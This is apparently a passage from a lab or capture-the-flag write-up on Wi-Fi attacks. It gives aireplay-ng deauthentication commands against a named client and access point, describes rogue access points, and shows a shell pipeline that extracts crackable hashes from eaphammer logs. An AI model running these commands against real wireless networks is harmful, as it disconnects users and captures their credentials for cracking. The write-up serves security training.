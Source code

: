 using the commands

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40

in another shell

airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:07:6C:40
```

![image.png](image%2054.png)

After performing a deauth attack on the client with address `64:32:A8:07:6C:40` using two different rogueAPs that we had setup, we were able to get the hash that we can crack t get the password as shown below.

![image.png](image%2055.png)

the hash will be located in a logs directory under the eaphammer tool, where we can take it and get the hash alone using the syntax `cat /root/tools/eaphammer/logs/hostapd-eaphammer.log | grep hashcat | awk '{print $3}' >> hashcat.5500` 

- **`cat /root/tools/eaphammer/logs/hostapd-eaphammer.log`**
    - Reads and outputs the contents of the **Eaphammer log file**.
- **`| grep hashcat`**
    - Filters the output, keeping only lines that contain the word **"hashcat"** (likely lines containing extracted WPA hashes).
- **`| awk '{print $3}'`**
    - Extracts the **third column (`$3`)** from each matching line.
    - This column probably contains the actual **WPA hash**.
- **`>> hashcat.5500`**
    - Appends (`>>`) the extracted hashes to a file named **`hashcat.5500`**.
    - If `hashcat.5500` does not exist, it is created.
